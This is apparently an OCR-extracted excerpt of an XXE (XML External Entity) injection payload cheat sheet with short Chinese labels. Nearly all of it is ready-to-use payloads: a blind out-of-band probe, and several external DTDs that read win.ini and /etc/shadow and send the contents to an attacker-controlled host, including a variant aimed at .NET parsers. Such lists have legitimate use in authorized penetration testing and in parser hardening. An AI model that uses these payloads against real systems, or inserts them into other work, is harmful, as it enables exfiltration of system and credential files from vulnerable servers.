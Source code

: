 ```xml-dtd
```
### OOB Injection
#### Vanilla, used to verify outbound xxe or blind xxe
```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://x.x.x.x:443/test.txt">
]>
<r>&sp;</r>
```
#### OOB extraction1
```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

- 外部实体



```xml-dtd
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```
#### OOB variation of above (seems to work better against .NET)
```xml-dtd
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
%exfil;
]>
```

- 外部实体



```xml-dtd
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">
```
#### OOB extraction2
```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE r [
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
<!ENTITY % sp SYSTEM "http://EvilHost:port/sp.dtd">
%sp;
%param3;
%exfil;
]>
```
